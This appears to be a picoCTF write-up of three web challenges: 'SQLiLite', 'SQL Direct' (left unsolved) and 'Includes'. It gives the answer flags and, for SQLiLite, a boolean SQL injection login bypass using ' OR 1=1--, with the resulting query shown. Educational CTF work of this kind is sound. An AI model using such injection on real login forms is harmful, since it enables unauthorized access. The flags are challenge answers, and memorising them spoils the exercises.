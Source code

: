 ## SQLiLite
Flag: `picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`

Can you login to this website?

I was able to login using Boolean-based SQL Injection. By inserting `' OR 1=1--` at the username, Bypassing authentication. After logging in, we can see the following message.

```
username: ' OR 1=1--
password: 
SQL query: SELECT * FROM users WHERE name='' OR 1=1--' AND password=''
Logged in! But can you see the flag, it is in plainsight.
```

Viewing the source, we can see the flag.

```

<pre>username: &#039; OR 1=1--
password: 
SQL query: SELECT * FROM users WHERE name=&#039;&#039; OR 1=1--&#039; AND password=&#039;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>
```

## SQL Direct
Flag: ``

Connect to this PostgreSQL server and find the flag!

## Includes
Flag: `picoCTF{1nclu51v17y_1of2_f7w_2of2_df589022}`

Can you get the flag?

Curling the webpage reveals that there's style.css and script.js. Visiting those two file reveals the flag.

```
$ curl http://saturn.picoctf.net:53908/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>On Includes</title>
  </head>
  <body>
    <script src="script.js"></script>
<truncated>
```
